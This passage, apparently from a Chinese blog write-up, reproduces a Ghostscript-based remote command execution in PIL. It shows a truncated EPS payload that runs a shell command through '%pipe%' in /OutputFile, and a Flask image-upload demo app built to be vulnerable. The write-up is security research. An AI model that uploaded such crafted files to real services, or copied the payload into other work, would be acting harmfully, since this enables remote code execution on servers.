 ```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

... 省略

currentdevice null false mark /OutputFile (%pipe%touch /tmp/aaaaa)
```

我们需要构造的命令执行payload就插入在这里 : `(%pipe%touch /tmp/aaaaa)`。

## 真实环境（伪）和复现

我使用之前写的的demo函数和Flask file-upload-sample写了一个简单的 Web app:[app.py](https://github.com/neargle/PIL-RCE-By-GhostButt/blob/master/src/app.py)，使这个本地命令执行变成一个远程命令执行。主要代码如下：

```python
UPLOAD_FOLDER = '/tmp'
ALLOWED_EXTENSIONS = set(['png'])

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER

def get_img_size(filepath=""):
    '''获取图片长宽'''
    if filepath:
        img = Image.open(filepath)
        img.load()
        return img.size
    return (0, 0)

def allowed_file(filename):
    '''判断文件后缀是否合法'''
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

@app.route('/', methods=['GET', 'POST'])
def upload_file():
    '''文件上传app'''
    if request.method == 'POST':
        if 'file' not in request.files:
            flash('No file part')
            return redirect(request.url)
        image_file = request.files['file']
        if image_file.filename == '':
            flash('No selected file')
            return redirect(request.url)
        if image_file and allowed_file(image_file.filename):
            filename = secure_filename(image_file.filename)
            img_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
            image_file.save(img_path)
            height, width = get_img_size(img_path)
            return '<html><body>the image\'s height : {}, width : {}; </body></html>'\
                .format(height, width)

    return '''
    <!doctype html>
    <title>Upload new File</title>
    <h1>Upload new File</h1>
    <form method=post enctype=multipart/form-data>
      <p><input type=file name=file>
         <input type=submit value=Upload>
    </form>
    '''
```